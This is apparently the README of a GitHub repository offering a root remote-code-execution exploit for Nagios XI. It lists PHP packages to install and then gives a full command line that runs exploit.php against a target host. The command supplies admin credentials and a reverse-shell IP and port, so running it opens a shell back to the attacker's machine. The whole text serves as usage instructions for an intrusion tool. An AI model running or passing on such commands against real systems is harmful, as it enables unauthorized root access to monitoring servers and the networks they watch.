 https://github.com/anindya14/nagiosxi-root-rce-exploit

## Things to install before the exploit could run successfully - 
- sudo apt-get install php-curl
- sudo apt-get install php-xml
- sudo service apache2 restart
- 
## Command - 
php exploit.php --host=192.168.248.136 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.45.170 --reverseport=4444
